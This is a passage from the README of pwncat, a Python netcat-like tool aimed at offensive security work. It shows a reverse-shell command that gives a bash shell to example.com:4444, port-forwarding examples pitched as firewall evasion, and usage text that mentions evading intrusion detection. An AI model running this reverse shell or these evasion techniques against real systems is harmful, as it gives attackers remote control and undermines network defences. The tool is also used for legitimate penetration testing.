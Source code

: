 ```bash
pwncat -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH
```bash
# Make local port available to public interface locally
pwncat -L 127.0.0.1:3306 192.168.0.1 3306
```
```bash
# Remote port-forwarding to evade firewalls
pwncat -R 127.0.0.1:3306 example.com 4444
```


## :computer: Usage
```
usage: pwncat [-Cnuv] [-e cmd] hostname port
       pwncat [-Cnuv] [-e cmd] -l [hostname] port
       pwncat [-Cnuv] -z hostname port
       pwncat [-Cnuv] -L addr:port [hostname] port
       pwncat [-Cnuv] -R addr:port hostname port
       pwncat -V, --version
       pwncat -h, --help


Enhanced and comptaible Netcat implementation written in Python (2 and 3) with
connect, zero-i/o, listen and forward modes and techniques to detect and evade
firewalls and intrusion detection systems.

positional arguments:
  hostname              Address to listen, forward or connect to
  port                  Port to listen, forward or connect to

mode arguments:
  -l, --listen          [Listen mode]:
                        Start server and listen for incoming connections.

  -z, --zero            [Zero-I/0 mode]:
                        Connect to a remote endpoint and report status only.

  -L addr:port, --local addr:port
                        [Local forward mode]:
                        Specify local <addr>:<port> to which traffic should be
                        forwarded to. pwncat will listen locally
                        (specified by hostname and port) and forward all
                        traffic to the specified value for -L/--local.

  -R addr:port, --remote addr:port
                        [Remote forward mode]:
                        Specify local <addr>:<port> from which traffic should be
                        forwarded from. pwncat will connect remotely
                        (specified by hostname and port) and for ward all
                        traffic from the specified value for -R/--remote.

optional arguments:
  -e cmd, --exec cmd    Execute shell command. Only for connect or listen mode.
  -C, --crlf            Send CRLF line-endings in connect mode (default: LF)
  -n, --nodns           Do not resolve DNS.
  -u, --udp             UDP mode
  -v, --verbose         Be verbose and print info to stderr. Use -v, -vv, -vvv
                        or -vvvv for more verbosity. The server performance will
                        decrease drastically if you use more than three -v.

advanced arguments:
```

[offsec]: https://github.com/cytopia/offsec
[header-fuzz]: https://github.com/cytopia/header-fuzz
[smtp-user-enum]: https://github.com/cytopia/smtp-user-enum
[urlbuster]: https://github.com/cytopia/urlbuster
[pwncat]: https://github.com/cytopia/pwncat
[badchars]: https://github.com/cytopia/badchars
[fuzza]: https://github.com/cytopia/fuzza